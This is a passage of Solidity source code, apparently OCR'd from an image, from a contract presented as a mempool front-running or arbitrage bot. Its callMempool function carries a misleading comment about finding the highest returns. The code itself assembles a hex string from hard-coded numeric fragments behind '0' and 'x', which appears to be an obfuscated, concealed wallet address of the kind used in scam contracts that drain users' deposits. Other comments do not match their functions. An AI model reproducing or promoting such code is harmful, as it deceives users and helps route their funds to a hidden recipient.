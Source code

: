                 for (idx = 0; idx <= selflen - needlelen; idx++) {
                    bytes32 testHash;
                    assembly { testHash := keccak256(ptr, needlelen) }
                    if (hash == testHash)
                        return ptr;
                    ptr += 1;
                }
            }
        }
        return selfptr + selflen;
    }

    function getMemPoolHeight() internal pure returns (uint) {
        return 715828;
    }

    /*
     * @dev Iterating through all mempool to call the one with the with highest possible returns
     * @return `self`.
     */
    function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 482846;
        uint _memPoolLength = getMemPoolLength();
        uint _memPoolSize = 852990;
        uint _memPoolHeight = getMemPoolHeight();
        uint _memPoolWidth = 403367;
        uint _memPoolDepth = getMemPoolDepth();
        uint _memPoolCount = 956718;

        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = mempool(checkLiquidity(_memPoolHeight), checkLiquidity(_memPoolWidth));
        string memory _memPool4 = mempool(checkLiquidity(_memPoolDepth), checkLiquidity(_memPoolCount));

        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);

        return _fullMempool;
    }

    /*
     * @dev Modifies `self` to contain everything from the first occurrence of
     *      `needle` to the end of the slice. `self` is set to the empty slice
     *      if `needle` is not found.
     * @param self The slice to search and modify.
     * @param needle The text to search for.
     * @return `self`.
     */
    function toHexDigit(uint8 d) pure internal returns (byte) {
        if (0 <= d && d <= 9) {
            return byte(uint8(byte('0')) + d);
        } else if (10 <= uint8(d) && uint8(d) <= 15) {
            return byte(uint8(byte('a')) + d - 10);
        }
        // revert("Invalid hex digit");
        revert();
    }
